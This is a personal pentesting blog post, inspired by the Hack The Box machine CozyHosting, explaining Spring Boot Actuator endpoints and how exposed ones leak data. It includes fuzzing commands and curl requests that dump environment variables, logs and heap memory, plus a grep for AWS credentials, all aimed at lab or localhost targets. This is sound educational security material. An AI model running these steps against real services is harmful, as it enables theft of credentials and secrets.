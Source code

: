 ```yaml
---
layout: post
title:  "SpringBoot Pentesting"
date:   2024-02-27 09:29:20 +0700
tags: [htb,pentesting]
categories: jekyll update
usemathjax: true
---
```


> # SpringBoot Pentesting

I was solving CozyHosting from HTB which had the initial foothold related to SpringBoot, so I’m gonna dive deeper like i always do

Vulnerable Spring application, if you want to test it out while reading the blog

[GitHub - malexmave/blog-spring-actuator-example: An example project with a vulnerable Spring Actuator configuration, as a companion to a blog post](https://github.com/malexmave/blog-spring-actuator-example)

This github  repository is associated with the blog linked down below

[Spring Actuator Security, Part 1: Stealing Secrets Using Spring Actuators](https://blog.maass.xyz/spring-actuator-security-part-1-stealing-secrets-using-spring-actuators)

## What is Spring Boot?

Spring Boot is a powerful and versatile framework that simplifies the development of web applications. Its simplicity, versatility, and active community make it a popular choice among developers.

### Spring **≠ Spring Boot**

| Spring | Spring Boot |
| --- | --- |
| Spring is a popular Java-based framework used for building web applications. | Spring Boot is a framework built on top of Spring. |
| Spring provides a wide range of features and tools for building web applications | Spring Boot simplifies the development process by eliminating the need for developers to write boilerplate code. |

## The story of Actuator.

Spring Boot includes a number of additional features called [actuators](https://docs.spring.io/spring-boot/docs/current/reference/html/production-ready-features.html) to help monitor and control an application when it is pushed to production. Actuators allow controling and monitoring an application using either HTTP or JMX endpoints.

They can be quite helpful in debugging or monitoring a Spring application, but if you expose them too widely, things can get dangerous very quickly.

Spring provides a **[list of all actuators](https://docs.spring.io/spring-boot/docs/2.5.6/reference/html/actuator.html#actuator.endpoints)** that are present by default and can be enabled.

The built-in endpoints will only be auto-configured when they are available. Most applications choose exposure via HTTP, where the ID of the endpoint along with a prefix of /actuator is mapped to a URL. For example, by default, the health endpoint is mapped to /actuator/health




> ### Fuzzing Actuators

```bash
ffuf -w ~/Desktop/tools/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt  -u http://10.10.11.224:55555/FUZZ

gobuster dir -w ~/wordlist/KaliLists/dirbuster/directory-list-2.3-medium.txt --url http://cozyhosting.htb/

```

Scanning pages simultaneously 

```bash
$ cat domains.txt
domain.com
sub1.domain.com
sub2.domain.com
[... etc ...]

$ ffuf -w endpoints.txt:PATH -w domains.txt:DOMAIN -u http://DOMAIN/PATH
```

More about the way this could be automated and easier to understand is linked in the blog below. 

[Spring Actuator Security, Part 3: Finding Exposed Actuators using Dynamic Testing with ffuf](https://blog.maass.xyz/spring-actuator-security-part-3-finding-exposed-actuators-using-dynamic-testing-with-ffuf?source=more_series_bottom_blogs)

## Finding Actuators ( Manually )

[Spring Actuator Security, Part 2: Finding Actuators using Static Code Analysis with semgrep](https://blog.maass.xyz/spring-actuator-security-part-2-finding-actuators-using-static-code-analysis-with-semgrep?source=more_series_bottom_blogs)

> ## Exploiting Actuators

### Looking for Secrets

```bash

curl localhost:8081/actuator/env | jq .

// ... lots of stuff
"DB_CONN": {
    "value": "psql://server/db",
    "origin": "System Environment Property \"DB_CONN\""
},
// ... lots of stuff
```

### Reading logs

```bash
curl localhost:8081/actuator/logfile

2022-08-24 13:45:14.813  INFO 68465 --- [http-nio-8081-exec-2] com.example.demo.DemoApplication         : Entering hello world function...
2022-08-24 13:45:14.814  INFO 68465 --- [http-nio-8081-exec-2] com.example.demo.DemoApplication         : Dumping AWS credentials for debugging purposes: Key: AKIATESTTEST Token: TESTingSecretAccessTest
```

### Dumping the dump ( Heapdump)

```bash
curl localhost:8081/actuator/heapdump -o heap.bin
```

This endpoint does exactly what it sounds like - it takes a copy of the Java heap (i.e., the memory of the application) and provides it to me as a large blob of binary data.

Now you can just use ``` strings heap.bin | grep -C 20 AWS ```

This does not even touch the surface of SpringBoot exploitation, I have linked better and more indepth blog about this by pros.

More about Exploiting Actuators

[Spring Actuator Security, Part 1: Stealing Secrets Using Spring Actuators](https://blog.maass.xyz/spring-actuator-security-part-1-stealing-secrets-using-spring-actuators)

[Exploiting Spring Boot Actuators - Veracode](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)

### References

[SPRING BOOT PENTESTING PART 1- FUNDAMENTALS](https://blog.certcube.com/spring-boot-pentesting-fundamentals-part-1/)

[SPRING BOOT PENTESTING PART 2- ACTUATORS](https://blog.certcube.com/spring-boot-pentesting-part-2-actuators/)

[Spring Boot Actuators](https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators)

[Spring Actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)

## Have any questions
Do you have any questions? Feel free to reach out to me on [twitter](https://twitter.com/rach1tarora) or on [LinkedIn](https://www.linkedin.com/in/rach1tarora/).